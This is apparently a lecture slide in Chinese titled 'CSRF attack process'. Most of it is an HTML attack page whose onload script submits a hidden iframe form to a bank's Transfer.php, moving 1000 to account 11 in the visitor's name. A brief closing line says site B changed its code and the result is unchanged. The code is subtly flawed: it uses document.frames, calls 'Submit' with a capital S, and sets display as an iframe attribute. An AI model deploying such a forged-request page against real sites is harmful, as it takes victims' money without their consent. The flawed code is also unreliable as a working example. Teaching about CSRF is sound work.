

# CSRF攻击过程
<html>
　　<head>
　　　　<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames["steal"];
　　     　　      iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>
　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>
网站B也修改代码
如果用户继续上面的操作，结果将仍然是上面的结果